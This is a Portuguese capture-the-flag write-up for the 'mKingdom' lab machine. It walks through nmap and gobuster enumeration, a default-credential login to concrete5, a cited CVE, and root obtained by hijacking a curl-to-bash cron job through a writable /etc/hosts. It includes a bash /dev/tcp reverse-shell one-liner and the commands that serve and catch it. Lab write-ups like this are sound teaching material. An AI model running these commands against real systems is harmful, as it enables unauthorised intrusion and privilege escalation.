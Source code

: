 # _**mKingdom CTF**_
![](mario.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -p- -A [ip_address]
> ```
![](scan_nmap.jpg)

Vamos utilizar <mark>Gobuster</mark> para tentar enumerar diretórios no website descoberto
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Temos um diretório, _/app_  
Acessando, temos um botão para cliclar que nos leva para outro website  
Neste website, temos alguns links que nos levam a diferentes seções do site, mas nenhum deles é útil  
Vamos novamente realizar um scan com <mark>Gobuster</mark>  

![](scan_gobuster2.jpg)

Mais alguns diretórios dos quais podemos investigar  
Verificando a página com as ferramentas de desenvolvedor, encontramos algo interessante  

![](tools.jpg)

Vamos primeiro investigar os diretórios encontrados  
Dos diretórios, _/concrete_ tinha bastante conteúdo, porém, a grande maioria útil com acesso negado  
Outros diretórios quase nenhuma informação relevante  
Novamente, utilizamos <mark>Gobuster</mark> em nos diretórios descobertos para tentarmos encontrar algo  
E temos retorno em _/index.php_, inesperado  

![](scan_gobuster3.jpg)

## _**Ganhando acesso**_
Investigando os diretórios, conseguimos encontrar qual CMS está sendo utilizado: **concrete5**, porém, não sabemos a versão  
Por sorte, na página de login foi tentado **admin:password** e foi feito login com sucesso  
Pesquisando pela versão de **concrete5**, agora que temos login, encontramos a versão 8.5.2  
Buscando por vulnerabilidades e exploits, encontramos [esta CVE](https://nvd.nist.gov/vuln/detail/CVE-2020-24986)  
Um _report_ pelo [hackerone](https://hackerone.com/reports/768322) explica como explorar essa falha  

![](shell_obt.jpg)

## _**Escalando privilégios**_
Buscando por binários **SUID**, encontramos _/bin/cat_  
Temo como dono o usuário **toad**  
Podemos utilizar para ler seus arquivos  
Procurando arquivos _default_, encontramos um token criptografado em base64 no final do arquivo _/home/toad/.bashrc_  
Tentando login ```su``` como **toad**, mas sem sucesso  
Como **mario**, deu certo  

![](mario_login.jpg)

Agora, investigando por um longo tempo o usuário, não foi encontrado maneiras óbvias de escalar privilégios  
Por isso, com o auxílio da ferramenta <mark>pspy</mark>, encontramos um _cronjob_  
Este _cronjob_ busca o script na URL indicada usando ```curl```, executa-o canalizando-o para o bash e anexa a saída dele ao arquivo _/var/log/up.log_  

![](cron_rep.jpg)

Verificamos se podemos alterar _/counter.sh_, mas não temos como

![](file_perm_denied.jpg)

Vamos então executar a ferramenta <mark>LinPeas</mark> para encontrar uma maneira de se explorar  
Nosso retorno indica que o arquivo _/etc/hosts_ é editável  

![](peas_return.jpg)

Agora só precisamos criar um arquivo _counter.sh_ que possa gerar um shell reverso simples e colocá-lo dentro do diretório _/app/castle/application_  
Em seguida iniciar um servidor http em python na porta 85 para que todo o caminho para o arquivo servido seja lido  
E por fim, iniciar um ouvinte netcat em uma porta diferente para escutar  
Em nossa máquina
> ```bash
> mkdir -p app/castle/application/
> echo "bash -c 'bash -i >& /dev/tcp/[vpn_ip_address]/[port] 0>&1'" > app/castle/application/counter.sh
> python3 -m http.server 85
> netcat [port]
> ```

É possível alterar o arquivo _/etc/hosts_ através do próprio terminal se seguir estes comandos após obter a shell, melhorá-la com Python e antes de realizar login como **mario**  
> ```bash
> export TERM=xterm
> ctrl+z
> stty raw -echo; fg
> id
> ```
Você melhora a shell ainda mais para poder conseguir editar o arquivo com ```nano```  
Após alterar o arquivo _/etc/hosts_, aguarde e obterá _root shell_  
Como não é possível ler arquivos com ```cat``` devido ao usuário **toad**, pode ser utilizado ```less```  
